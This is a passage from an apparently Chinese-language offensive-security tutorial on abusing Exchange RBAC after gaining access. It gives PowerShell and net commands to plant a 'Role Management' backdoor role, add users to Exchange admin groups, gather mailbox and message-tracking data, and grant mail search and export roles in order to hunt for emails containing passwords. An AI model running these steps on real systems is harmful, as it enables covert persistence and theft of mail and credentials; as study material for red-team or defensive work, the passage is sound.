 通过各种方式连接上 Exchange 管理端后，会自动加载大量的 Exchange Cmdlet。Exchange 通过基于角色的访问控制（RBAC）进行权限管理，用户拥有相应的角色才可以使用对应的 Exchange Cmdlet，否则在连接阶段就不会获取没有权限的 Exchange Cmdlet。下面语句描述如何查看某个 Cmdlet 所需角色，并为用户赋予该角色，让其可以执行该 Cmdlet：

```bash
# 查看所有 Exchange Cmdlet
Get-ExCommand

# 查看执行某个 Cmdlet 所需的角色
Get-ManagementRole -Cmdlet New-ManagementRoleAssignment

# 给某个用户赋予所需角色，让其可以执行某个 Cmdlet
New-ManagementRoleAssignment -Role "Role Management" -User zhangsan -Name "Role Management Back"

# 查看角色授权是否成功
Get-ManagementRoleAssignment -Role "Role Management"|Format-List

# 删除某个角色授权
Remove-ManagementRoleAssignment -Identity "Role Management Back" -Confirm:$false
需要注意的是，Get-ManagementRole 和 Get-ManagementRoleAssignment 需要 Role Management 角色，而该角色一般被分配给 Organization Management 角色组。

# Exchange 管理端添加 Exchange 管理员
Add-RoleGroupMember "Organization Management" -Member zhangsan -BypassSecurityGroupManagerCheck
Add-RoleGroupMember "Exchange Organization Administrators" -Member zhangsan -BypassSecurityGroupManagerCheck

# 域管添加 Exchange 管理员
net groups "Organization Management" zhangsan /DOMAIN /ADD
net groups "Exchange Organization Administrators" zhangsan /DOMAIN /ADD

# 将用户加入 Role Management 组，可以任意添加角色，相当于后门
New-ManagementRoleAssignment -Role "Role Management" -User zhangsan -Name "Role Management Back"
```
添加特定的角色后，攻击者就可以进行管理员级别的信息收集。

#### 统计信息

```bash
# 查看所有邮箱信息，默认显示邮件数量、最后登录时间
Get-Mailbox -ResultSize unlimited | Get-MailboxStatistics

# 查看 zhangsan 的发件箱详情
Get-MessageTrackingLog -Start "01/11/2019 09:00:00" -Sender "zhangsan@island.com" -EventID SEND |Format-Table Timestamp,ClientIp,ClientHostname,EventId,Sender,Recipients,MessageSubject
```

#### 全局搜索

两种方式搜索全局邮件，/PowerShell 或 /EWS。

1. 通过 /PowerShell 查询

如果用户拥有 Mailbox Import Export 和 Mailbox Search 角色则可以使用搜索和导出相关的 Cmdlet，老版本 Exchange 中这两个角色默认没有分配给任何用户或角色组，包括 Organization Management 组。在实战中，通常需要先用 Organization Management 组用户登录管理接口，给自己赋予这两个角色，再重新连接自动从远程会话获取相应 Cmdlet。
```
# 赋予角色，需要重新连接才能从远程会话获取相应 cmdlet
New-ManagementRoleAssignment -Role "Mailbox Search" -User enterprise_admin
New-ManagementRoleAssignment -Role "Mailbox Import Export" -User enterprise_admin

# 删除角色
Remove-ManagementRoleAssignment -Identity "Mailbox Search-enterprise_admin" -Confirm:$false
Remove-ManagementRoleAssignment -Identity "Mailbox Import Export-enterprise_admin" -Confirm:$false

# 导出所有邮箱正文中带 pass 的邮件，localhost 为 Exchange 服务器
```